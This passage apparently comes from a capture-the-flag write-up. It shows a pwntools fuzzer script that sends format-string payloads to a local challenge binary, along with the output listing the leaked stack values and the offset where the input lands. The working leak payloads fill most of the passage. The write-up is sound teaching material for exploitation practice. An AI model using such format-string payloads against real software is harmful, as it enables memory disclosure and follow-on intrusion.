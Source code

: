 I assumed that the `filter` will block `pwntools` `fmtstr_payload` *( but it turns that we could have used that )* so I used the manual method :D

A fuzzer like this can be used to not only leak values for analysis but also determine where our input lies:
```python
from pwn import *

p = process('./challenge')
no_of_leaks = 20

def generate_payload(i):
    end = 'AAAABBBB'
    string = ''.join( '%{:02d}$#lX'.format(i) )
    string += '*' * ( 28 - len(string) - len(end) )
    string += end
    return string.encode()

for i in range(1, no_of_leaks):
    payload = generate_payload(i)
    print('Sending payload : {}.....'.format(payload), end='')
    p.sendline(b'2')
    p.sendlineafter(b'>> ', payload)
    output = p.clean()
    for line in output.split(b'\n'):
        if b'AAAABBBB' in line:
            print(line.split(b'*')[0])

p.close()
```
{: file="fuzzer.py"}

```console
$ python fuzzer.py
[+] Starting local process './challenge': pid 3744238
Sending payload : b'%01$#lX*************AAAABBBB'.....b'>> 0X78'
Sending payload : b'%02$#lX*************AAAABBBB'.....b'0XFBAD208B'
Sending payload : b'%03$#lX*************AAAABBBB'.....b'0X7FBCBD3145F2'
Sending payload : b'%04$#lX*************AAAABBBB'.....b'0'
Sending payload : b'%05$#lX*************AAAABBBB'.....b'0'
Sending payload : b'%06$#lX*************AAAABBBB'.....b'0X2A586C2324363025'
Sending payload : b'%07$#lX*************AAAABBBB'.....b'0X2A2A2A2A2A2A2A2A'
Sending payload : b'%08$#lX*************AAAABBBB'.....b'0X414141412A2A2A2A'
Sending payload : b'%09$#lX*************AAAABBBB'.....b'0X42424242'
Sending payload : b'%10$#lX*************AAAABBBB'.....b'0X5578359BDD80'
Sending payload : b'%11$#lX*************AAAABBBB'.....b'0X92C78EE688CCF300'
Sending payload : b'%12$#lX*************AAAABBBB'.....b'0X7FFDEFEA4930'
Sending payload : b'%13$#lX*************AAAABBBB'.....b'0X5578359BB4D1'
Sending payload : b'%14$#lX*************AAAABBBB'.....b'0X200001000'
Sending payload : b'%15$#lX*************AAAABBBB'.....b'0X92C78EE688CCF300'
Sending payload : b'%16$#lX*************AAAABBBB'.....b'0X1'
Sending payload : b'%17$#lX*************AAAABBBB'.....b'0X7FBCBD229D90'
Sending payload : b'%18$#lX*************AAAABBBB'.....b'0'
Sending payload : b'%19$#lX*************AAAABBBB'.....b'0X5578359BB462'
[*] Stopped process './challenge' (pid 3744238)
```
